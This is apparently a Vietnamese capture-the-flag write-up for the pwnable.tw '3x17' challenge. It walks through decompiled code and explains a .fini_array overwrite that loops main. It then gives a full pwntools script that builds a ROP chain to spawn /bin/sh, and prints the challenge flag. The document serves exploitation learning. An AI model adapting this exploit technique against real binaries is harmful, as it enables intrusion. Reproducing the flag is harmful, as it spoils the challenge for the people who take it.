 **1. Tìm lỗi**

Dùng lệnh ```file``` để kiểm tra:

```
3x17: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3, stripped
```

---> Mở bằng IDA64 ta được:

```
void __fastcall __noreturn start(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 v3; // rax
  unsigned int v4; // esi
  __int64 v5; // [rsp-8h] [rbp-8h] BYREF
  void *retaddr; // [rsp+0h] [rbp+0h] BYREF

  v4 = v5;
  v5 = v3;
  sub_401EB0(
    (__int64 (__fastcall *)(_QWORD, __int64, __int64))sub_401B6D,
    v4,
    (__int64)&retaddr,
    (void (__fastcall *)(_QWORD, __int64, __int64))sub_4028D0,
    (__int64)sub_402960,
    a3,
    (__int64)&v5);
}
```

Hàm ```sub_401B6D```:

```
__int64 sub_401B6D()
{
  __int64 result; // rax
  char *v1; // [rsp+8h] [rbp-28h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  result = (unsigned __int8)++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    printf(1u, "addr:", 5uLL);
    read(0, buf, 0x18uLL);
    v1 = (char *)(int)sub_40EE70((__int64)buf);
    printf(1u, "data:", 5uLL);
    read(0, v1, 0x18uLL);
    result = 0LL;
  }
  if ( __readfsqword(0x28u) != v3 )
    sub_44A3E0();
  return result;
}
```

Hàm ```sub_4028D0```:

```
__int64 __fastcall sub_4028D0(unsigned int a1, __int64 a2, __int64 a3)
{
  __int64 result; // rax
  signed __int64 v5; // r14
  __int64 i; // rbx

  result = init_proc();
  v5 = off_4B40F0 - funcs_402908;
  if ( v5 )
  {
    for ( i = 0LL; i != v5; ++i )
      result = ((__int64 (__fastcall *)(_QWORD, __int64, __int64))funcs_402908[i])(a1, a2, a3);
  }
  return result;
}
```

Hàm ```sub_402960```:

```
__int64 sub_402960()
{
  signed __int64 v0; // rbx

  if ( (&unk_4B4100 - (_UNKNOWN *)off_4B40F0) >> 3 )
  {
    v0 = ((&unk_4B4100 - (_UNKNOWN *)off_4B40F0) >> 3) - 1;
    do
      off_4B40F0[v0--]();
    while ( v0 != -1 );
  }
  return term_proc();
}
```

Sau một hồi đọc source và chạy thử thì có hiểu chương trình sẽ in ra chuỗi add. Mình sẽ nhập địa chỉ vào đó. Sau đó chương trình in ra chuỗi data. Mình sẽ nhập dữ liệu vào và chương trình sẽ lưu dữ liệu mình nhập cho địa chỉ đã nhập trước đó.

Xem cụ thể hơn hàm ```sub_4028D0``` thì nó liên quan đến fini_array:

```
.fini_array:00000000004B40F0                               ; ===========================================================================
.fini_array:00000000004B40F0
.fini_array:00000000004B40F0                               ; Segment type: Pure data
.fini_array:00000000004B40F0                               ; Segment permissions: Read/Write
.fini_array:00000000004B40F0                               _fini_array segment qword public 'DATA' use64
.fini_array:00000000004B40F0                               assume cs:_fini_array
.fini_array:00000000004B40F0                               ;org 4B40F0h
.fini_array:00000000004B40F0 00 1B 40 00 00 00 00 00       off_4B40F0 dq offset sub_401B00         ; DATA XREF: sub_4028D0+4C↑o
.fini_array:00000000004B40F0                                                                       ; sub_402960+8↑o
.fini_array:00000000004B40F8 80 15 40 00 00 00 00 00       dq offset sub_401580
.fini_array:00000000004B40F8                               _fini_array ends
.fini_array:00000000004B40F8
```

Và địa chỉ hàm ```sub_402960``` để call fini_array.

**2. Ý tưởng**

Khi mình nhập địa chỉ hàm main hay là hàm ```sub_401B6D``` vào địa chỉ của fini_array thì nó sẽ tạo 1 vòng lặp đến chết của hàm ```sub_401B6D```.

Từ đó sử dụng ```ROPgadget``` để tạo hàm thực thi tại các địa chỉ sau fini_array.

**3. Khai thác**

Tạo 1 hàm send data để gửi dữ liệu nhiều lần cho tiện

```
def senddata(add, data):
    r.sendlineafter(b'addr:', str(add))
    r.sendafter(b'data:', data)
```

Ta có được địa chỉ của ```main```, ```fini_array```, ```fini_array_call``` như sau:

```
main = 0x401B6D
fini_array = 0x4B40F0
fini_array_call = 0x402960
```

Tiếp theo sử dụng ```ROPgadget``` để lấy các thanh ghi phù hợp

```
pop_rdi = 0x0000000000401696 #1
pop_rsi = 0x0000000000406c30 #2
pop_rdx = 0x0000000000446e35 #3
pop_rax = 0x000000000041e4af #4
syscall = 0x00000000004022b4 #5
leave = 0x0000000000401c4b
```

Khi chèn địa chỉ và giá trị các thanh ghi trên vào sau fini_array thì 88 byte sau đó đã được sử dụng nên dự kiến địa chỉ để ghi chuỗi ```/bin/sh``` sẽ là fini_array + 88. Thử kiểm tra xem có ghi vào được địa chỉ đó không.

![check.png](photo/check.png)

Có ngay ```0x4b4148``` thuộc khoảng ```0x4ba000``` đến ```0x4bb000``` nên có thể ghi được.

Ta có script như sau:

```
from pwn import *

exe = ELF('3x17', checksec = False)
#r = process(exe.path)
r = remote('chall.pwnable.tw', 10105)

main = 0x401B6D
fini_array = 0x4B40F0
fini_array_call = 0x402960

pop_rdi = 0x0000000000401696 #1
pop_rsi = 0x0000000000406c30 #2
pop_rdx = 0x0000000000446e35 #3
pop_rax = 0x000000000041e4af #4
syscall = 0x00000000004022b4 #5
leave = 0x0000000000401c4b
rw_section = fini_array + 11*8

def senddata(add, data):
    r.sendlineafter(b'addr:', str(add))
    r.sendafter(b'data:', data)

senddata(fini_array, p64(fini_array_call) + p64(main))
senddata(fini_array + 2*8, p64(pop_rdi) + p64(rw_section))
senddata(fini_array + 4*8, p64(pop_rsi) + p64(0))
senddata(fini_array + 6*8, p64(pop_rdx) + p64(0))
senddata(fini_array + 8*8, p64(pop_rax) + p64(0x3b))
senddata(fini_array + 10*8, p64(syscall) + b'/bin/sh\x00')
senddata(fini_array, p64(leave))
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

```Flag: FLAG{Its_just_a_b4by_c4ll_0riented_Pr0gramm1ng_in_3xit}```